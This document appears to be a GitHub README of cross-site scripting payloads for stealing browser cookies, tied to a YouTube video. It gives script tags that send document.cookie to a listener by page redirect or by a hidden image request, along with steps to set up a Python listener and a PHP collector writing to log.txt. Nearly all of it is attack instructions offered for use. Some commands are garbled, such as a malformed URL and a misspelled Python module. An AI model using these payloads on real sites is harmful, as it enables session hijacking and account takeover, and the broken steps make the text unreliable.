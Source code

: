 # Stealling Cookies

All Payload that used from this Youtube Video:

https://youtu.be/Kh1sgI5yLdk


Payloads:

# Takeing The Cookie From Python3 Server Listener:

1 - Strat Python Server:

YasserREED > Python3 -m Server.http 3333 <- Any Port You Like!

2 - write Payload with window.location() function:

<script> window.location='https://127.0.0.1/:3333?cookie='+document.cookie </script> 


# Send Cookies without go to another window :

1 - Strat Python Server:

YasserREED> Python3 -m Server.http 3333 <- Any Port You Like!

2 - Write the Pyaload:

<script>
    var i = new Image();
    i.src="http://127.0.0.1:3333/?cookie="+document.cookie
</script>  


# Wirte PHP Code To Take the Cookie:

1 - go to html File:

[~] YasserREED> cd  /var/www/html

2 - Make File get.php:

YasserrEED> sudo gedit get.php

// Code with the File Just Copy it 

3 - Make log.txt file:

YasserRED> sudo touch log.txt

4 - Give all Privileges:

YasserREED> sudo chmod 777 log.txt

# Send The Cookie to log.txt by get.php using window.location() function:

1 - Write The Payload:

<script> window.location='https://127.0.0.1/get.php?cookie='+document.cookie </script> 

2 - Paste to input filed.

3 - Check log.txt. //if not showen you can refresh the page 🔄

# Take the cookie Silnce by get.php and send it to log.txt:

1 - Write Payload:

<script>
    var o = new Image();
    o.src="http://127.0.0.1/get.php?cookie="+document.cookie
</script>


2 - Paste in input filed.

3 - Check log.txt //if not showen you can refresh the page 🔄

